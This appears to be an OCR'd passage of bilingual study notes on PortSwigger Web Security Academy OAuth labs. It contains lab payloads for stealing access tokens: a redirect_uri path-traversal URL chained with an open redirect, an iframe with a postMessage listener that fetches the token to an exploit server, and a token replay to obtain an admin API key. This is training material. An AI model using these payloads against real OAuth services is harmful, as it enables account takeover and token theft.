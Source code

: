 ```
		    window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
		  } else {
		    window.location = '/?'+document.location.hash.substr(1)
		  }
		</script>
		发送给victim
		f. 重新发包 GET /me 修改token 以获得admin的apikey
		（document.location.hash   ：
hash 属性是一个可读可写的字符串，该字符串是 URL 的锚部分（从 # 号开始的部分）location.hash可以用来获取或设置页面的标签值）
```

一些很好的示例允许您提取代码或令牌并将其发送到外部域：

- 处理查询参数和URL片段的危险JavaScript

- XSS漏洞

- HTML注入漏洞：

  consider the following img element: 

  ```
  <img src="evil-user.net">
  ```

lab2：

1. test and find there is a same vulnerable uri like the previous one 
2. 审核其他页面并在Burp中找到/post/comment/comment表单页面，注意它使用postMessage（）方法将window.location.href属性发送到其父窗口。最重要的是，它允许将消息发布到任何来源（*）
3. in exploit server 

```html
<iframe src="https://YOUR-LAB-AUTH-SERVER/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
```

​	4.add like this below the payload :

```html
<script>
 window.addEventListener('message', function(e) {
  fetch("/" + encodeURIComponent(e.data.data))
 }, false)
</script>
```

​	5.GET /me as well

## Flawed scope validation

在某些情况下，由于OAuth服务的验证存在缺陷，攻击者可能会使用额外权限**“升级”访问令牌**（窃取或通过恶意客户端应用程序获得）。执行此操作的过程取决于授予类型。
